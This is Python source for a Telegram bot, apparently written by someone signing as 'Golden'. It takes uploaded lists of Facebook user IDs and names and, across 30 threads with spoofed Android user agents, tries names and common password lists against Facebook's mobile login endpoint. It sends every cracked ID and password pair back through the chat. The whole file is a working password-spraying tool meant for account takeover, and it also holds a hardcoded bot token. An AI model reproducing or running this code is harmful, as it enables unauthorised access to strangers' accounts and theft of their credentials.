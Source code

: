 #البـوت تطـويري بـنسبة 80% 
import telebot
import time
import requests
import random
import re
import os
from concurrent.futures import ThreadPoolExecutor as THREADING
from telebot import types

tok = '6833628966:AAGru4vFKXQUfbygkIxJ_o8AieO7qK3LrBE'# - Token
bot = telebot.TeleBot(tok)

ugen2 = []
ugen = []
cokbrut = []
ses = requests.Session()
princp = []

try:
    PROXY = requests.get('https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks4.txt').text
    with open('PROXYZ.txt', 'w', encoding='utf-8') as f:
        f.write(PROXY)
except:
    pass

with open('PROXYZ.txt', 'r', encoding='utf-8') as f:
    PROXY = f.read().splitlines()

def generate_user_agent_android():
    version_a = f'{random.randrange(1, 9)}.{random.randrange(1, 9)}'
    device_a = '11; Redmi Note 5A Lite)'
    extras_a = f'{random.randrange(100, 9999)} AppleWebKit/537.36 (KHTML, like Gecko) {random.randrange(1, 9)}.{random.randrange(1, 4)}.{random.randrange(1, 4)}.{random.randrange(1, 4)} Chrome/96.0.4664.45 Mobile Safari/537.36'
    return f'Mozilla/5.0 (Linux; Android {version_a} {device_a} {extras_a}'

ugen2 = [generate_user_agent_android() for _ in range(10000)]

def generate_user_agent_android_12():
    version_b = '12;'
    device_b = 'M2101K6G'
    letter = random.choice('ABCDEFGHIJKLMNOPQRSTUVWXYZ')
    number = random.randrange(1, 999)
    extras_b = f'Build/SKQ1.210908.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) {random.randrange(80, 103)}.0.0.{random.randrange(4200, 4900)} {random.randrange(40, 150)} Version/4.0 Chrome/110.0.5481.65 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/403.0.0.27.81;]'
    return f'Mozilla/5.0 (Linux; Android {version_b} {letter}{device_b}{number}{letter}) {extras_b}'

ugen = [generate_user_agent_android_12() for _ in range(10000)]

id_list, id2, loop, ok, cp, akun, oprek, method, taplikasi, uid = [], [], 0, 0, 0, [], [], [], [], []
pwpluss, pwnya = [], []
x = ''
FILE_OK = 'OK.txt'
FILE_CP = 'CP.txt'

ok_accounts = []
cp_accounts = []
lang = 'ar'

@bot.message_handler(commands=['start'])
def send_welcome(message):
    keyboard = types.InlineKeyboardMarkup()
    arabic_button = types.InlineKeyboardButton("الــعـربـيـة 🇮🇶", callback_data='ar')
    english_button = types.InlineKeyboardButton("English 🇺🇸", callback_data='en')
    keyboard.add(arabic_button, english_button)
    bot.reply_to(message, "أخـــــتر مـــــاهي اللـغه الـــتي تُفضلها . ", reply_markup=keyboard)

@bot.callback_query_handler(func=lambda call: call.data in ['ar', 'en'])
def set_language(call):
    global lang
    lang = call.data
    if lang == 'ar':
        bot.send_message(call.message.chat.id, ". أرسل الملف الان للبدء .")
    elif lang == 'en':
        bot.send_message(call.message.chat.id, ". Send the file now to start .")

@bot.message_handler(content_types=['document'])
def handle_file(message):
    try:
        file_info = bot.get_file(message.document.file_id)
        downloaded_file = bot.download_file(file_info.file_path)
        with open('Goldtest.txt', 'wb') as new_file:
            new_file.write(downloaded_file)
        
        global id2
        with open('Goldtest.txt', 'r', encoding='utf-8') as file:
            id2 = file.readlines()

        if lang == 'ar':
            bot.send_message(message.chat.id, """— /pass_1 — [ 🇮🇶 ] — [ ✅ ]

— /pass_2 — [ 🇮🇶 ] — [ ✅ ]

— /pass_3 — [ 🇮🇶 ] — [ ✅ ]

اخــتر من الأوامـر للتـخـميـن كـلمـات الـسر .

 يمكـنك مشـاهدة كلـمات الــسر مـاهــية . """)
        elif lang == 'en':
            bot.send_message(message.chat.id, """— /pass_1 — [ 🇮🇶 ] — [ ✅ ]

— /pass_2 — [ 🇮🇶 ] — [ ✅ ]

— /pass_3 — [ 🇮🇶 ] — [ ✅ ]


choose from the commands to guess the password .

you can see what the password are . """)

    except Exception as e:
        bot.reply_to(message, f"حدث خطأ: {e}" if lang == 'ar' else f"An error occurred: {e}")

@bot.message_handler(commands=['pass_1', 'pass_2', 'pass_3'])
def handle_iq_commands(message):
    command = message.text
    if command == '/pass_1':
        pas = ['19901990', '19911991', '19921992', '19931993', '19941994', '19951995', '19961996', '19971997', '19981998', '19991999', '19801980', '19811981', '19821982', '19831983', '19841984', '19851985', '19861986', '19871987', '19881988', '19891989', '1122334455', '112233445566', '11223344556677', '123456123456', '1234512345', '12345671234567', '1122334455@', '12345@@', '12345@', '00998877', '10002000', '٠٩٨٧٦٥٤٣٢١', '1020304050', '20202020', '102030405060', '1020304050', '10203040', 'qqwweerr', 'qqwweerrtt', 'aassddff', 'zzxxccvv', 'ppooiiuu', 'mmnnbbvv', 'qwerqwer', 'qwertqwert', 'asdfasdf', 'zxcvzxcv', 'poiupoiu', '1q2w3e4r', '1q2w3e4r5t']
    elif command == '/pass_2':
        pas = ['qqwweerr', 'qqwweerrtt', 'aassddff', 'zzxxccvv', 'ppooiiuu', 'mmnnbbvv', 'qwerqwer', 'qwertqwert', 'asdfasdf', 'zxcvzxcv', 'poiupoiu', '1q2w3e4r', '1q2w3e4r5t']
    elif command == '/pass_3':
        pas = ['1122334455', '112233445566', '11223344556677', '123456123456', '1234512345', '12345671234567', '1122334455@', '12345@@', '12345@', '00998877', '10002000', '٠٩٨٧٦٥٤٣٢١', '1020304050', '20202020', '102030405060', '1020304050', '10203040']

    if lang == 'ar':
        progress_message = bot.send_message(message.chat.id, """لـوقيف الــفحـص  - /stop
لمـعرفـة الحسـابـات الـصـحـيحة يـمكـنك ارسـال امـر -  /ok
لمـعرفـة الحسـابـات الـخاطـئة يـمكـنك ارسـال امـر -  /cp""")
    elif lang == 'en':
        progress_message = bot.send_message(message.chat.id, """To stop the check - /stop
To know the correct accounts, you can send the command - /ok
To know the incorrect accounts, you can send the command - /cp""")

    progress_markup = create_progress_markup(ok, cp, loop, len(id2))
    bot.edit_message_reply_markup(chat_id=message.chat.id, message_id=progress_message.message_id, reply_markup=progress_markup)

    PASOWRD(message, progress_message, pas)

def create_progress_markup(ok, cp, loop, total):
    test1 = types.InlineKeyboardMarkup(row_width=1)
    Goldstart1 = types.InlineKeyboardButton(f"• Total ♻️ : [{total}] •", callback_data='x')
    Goldstart2 = types.InlineKeyboardButton(f"• Hits ✅ : [{ok}] •", callback_data='x')
    Goldstart3 = types.InlineKeyboardButton(f"• Bad ❌ : [{cp}] •", callback_data='x')
    Goldstart4 = types.InlineKeyboardButton(f"• Check ⚠️ : [{loop}] •", callback_data='x')
    test1.add(Goldstart1, Goldstart2, Goldstart3, Goldstart4)
    return test1

def PASOWRD(message, progress_message, pas):
    with THREADING(max_workers=30) as pool:
        for idf, nmf in (yuzong.split('|')[:2] for yuzong in id2):
            frs = nmf.split(' ')[0]
            pwv = [nmf] if len(frs) >= 3 else [nmf, '123456']
            pwv.extend(pas)
            pwv.extend(pwnya if 'ya' in pwpluss else [])
            pool.submit(CHECK, idf, pwv, message, progress_message)
    bot.send_message(message.chat.id, f'Golden : Ilove you . ')

def CHECK(idf, pwv, message, progress_message):
    global loop, ok, cp, ok_accounts, cp_accounts
    ua, ua2, ses = random.choice(ugen), random.choice(ugen2), requests.Session()
    for pw in pwv:
        try:
            ses.headers.update({"Host": 'm.facebook.com', "upgrade-insecure-requests": "1", "user-agent": ua2, "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "dnt": "1", "x-requested-with": "mark.via.gp", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-user": "empty", "sec-fetch-dest": "document", "referer": "https://m.facebook.com/", "accept-encoding": "gzip, deflate br", "accept-language": "en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F').text
            
            lsd_value = re.search('name="lsd" value="(.*?)"', str(p))
            jazoest_value = re.search('name="jazoest" value="(.*?)"', str(p))

            if lsd_value is None or jazoest_value is None:
                continue

            dataa = {"lsd": lsd_value.group(1), "jazoest": jazoest_value.group(1), "uid": idf, "flow": "login_no_pin", "pass": pw, "next": "https://developers.facebook.com/tools/debug/accesstoken/"}
            ses.headers.update({"Host": 'm.facebook.com', "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "origin": "https://m.facebook.com", "content-type": "application/x-www-form-urlencoded", "user-agent": ua, "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "x-requested-with": "mark.via.gp", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-user": "empty", "sec-fetch-dest": "document", "referer": "https://m.facebook.com/login/?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "en-GB,en-US;q=0.9,en;q=0.8"})
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0', data=dataa, allow_redirects=False)
            if 'checkpoint' in po.cookies.get_dict().keys():
                cp_accounts.append(f'{idf} | {pw}')
                cp += 1
                bot.send_message(message.chat.id, f' [CP] {idf} | {pw}')
                break
            elif 'c_user' in ses.cookies.get_dict().keys():
                ok_accounts.append(f'{idf} | {pw}')
                ok += 1
                bot.send_message(message.chat.id, f' [OK] {idf} | {pw}')
                break
        except Exception as e:
            print(f"Error: {e}")
            continue
    loop += 1
    progress_markup = create_progress_markup(ok, cp, loop, len(id2))
    bot.edit_message_reply_markup(chat_id=message.chat.id, message_id=progress_message.message_id, reply_markup=progress_markup)

@bot.message_handler(commands=['stop'])
def stop(message):
    if lang == 'ar':
        bot.send_message(message.chat.id, "تــم ايــقاف الــفحص .")
    elif lang == 'en':
        bot.send_message(message.chat.id, "Check stopp .")

@bot.message_handler(commands=['ok'])
def send_ok(message):
    if ok == 0:
        if lang == 'ar':
            bot.send_message(message.chat.id, "عدد الحسابات ✅ : 0")
        elif lang == 'en':
            bot.send_message(message.chat.id, "number of valid accounts ✅ : 0")
    else:
        if lang == 'ar':
            bot.send_message(message.chat.id, "عدد الحسابات ✅ : \n" + "\n".join(ok_accounts))
        elif lang == 'en':
            bot.send_message(message.chat.id, "number of valid accounts ✅ : \n" + "\n".join(ok_accounts))

@bot.message_handler(commands=['cp'])
def send_cp(message):
    if cp == 0:
        if lang == 'ar':
            bot.send_message(message.chat.id, "عدد الحسابات ❌ : 0")
        elif lang == 'en':
            bot.send_message(message.chat.id, "number of invalid accounts ❌ : 0")
    else:
        if lang == 'ar':
            bot.send_message(message.chat.id, "عدد الحسابات ❌ :\n" + "\n".join(cp_accounts))
        elif lang == 'en':
            bot.send_message(message.chat.id, "number of invalid accounts ❌ :\n" + "\n".join(cp_accounts))

@bot.message_handler(commands=['dev'])
def send_dev(message):
    bot.send_message(message.chat.id, "- by | Golden .\n\n- tele | @u_w1w .")

bot.polling(none_stop=True)


